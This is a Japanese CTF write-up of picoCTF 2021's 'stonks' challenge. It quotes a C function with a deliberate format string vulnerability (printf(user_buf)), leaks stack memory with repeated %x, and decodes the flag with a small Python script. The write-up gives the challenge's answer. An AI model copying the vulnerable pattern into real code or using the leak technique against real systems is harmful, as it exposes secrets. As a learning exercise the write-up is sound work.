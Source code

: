 # stonks(picoCTF2021より)
フォーマット文字列攻撃についての問題を初めて解いたので忘れないうちにここに残します．<br>
配布されたvuln.cを読んでみる，以下はbuy_stonks関数で，ところどころコメントもいれた．

```
//株を買う関数
int buy_stonks(Portfolio *p) {
	//(エラー時)
	if (!p) {
		return 1;
	}

	//ファイルfからflagをapi_bufに移す
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	//所持金，所有株を同期
	int money = p->money;
	int shares = 0;
	//一時記録用の株クラス
	Stonk *temp = NULL;

	//お金がある限り，ループ
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		//1~maxの所持金の数だけsharesに代入
		shares = (rand() % money) + 1;
		//株を1つ定義し，tempに
		temp = pick_symbol_with_AI(shares);
		//もともと空のtempのnextにpのheadを代入
		temp->next = p->head;
		//pのheadにtempを代入
		p->head = temp;
		//shares分所持金を減らす
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	//ここでなぜか入力した文字列を表示している．フォーマット文字列攻撃が使えそう．(%xとか)
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}
```
<br>
ここで気になるのが，print(user_buf)で入力した文字列をわざわざ表示している点．ここがフォーマット文字列攻撃の脆弱性であると予想．<br>
FLAG_BUFFERにflagが格納されているはずなので，%xを連打して取り出そうと試みる．<br><br>

![キャプチャ](https://user-images.githubusercontent.com/64766627/170829477-f84bcd1e-a2fd-4e59-bf00-35a43a868db3.png)<br><br>

まとめてアスキー変換するとこんな感じに(CyberChefを利用)<br><br>
<img width="479" alt="キャプチャ" src="https://user-images.githubusercontent.com/64766627/170829532-60ae8f50-d5d0-4709-9b14-4036c2e56a58.png"><br><br>

明らかにflagっぽい文字列が見つかるけど，リトルエンディアンなのか順番が少しだけおかしい．<br><br>

```
from ctypes import sizeof

sipher='ocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10ÿý.}÷ùZø'
message=''
stack=[]
for i in range(len(sipher)):
    stack.append(sipher[i])
    if(i%4==3):
        for j in range(4):
            message+=stack[3-j]
            #print(message)
        stack=[]
print(message)
```

こんな感じのプログラムを組んで，flagを入手．}より後ろは必要なし．
```
picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}.ýÿøZù÷
```
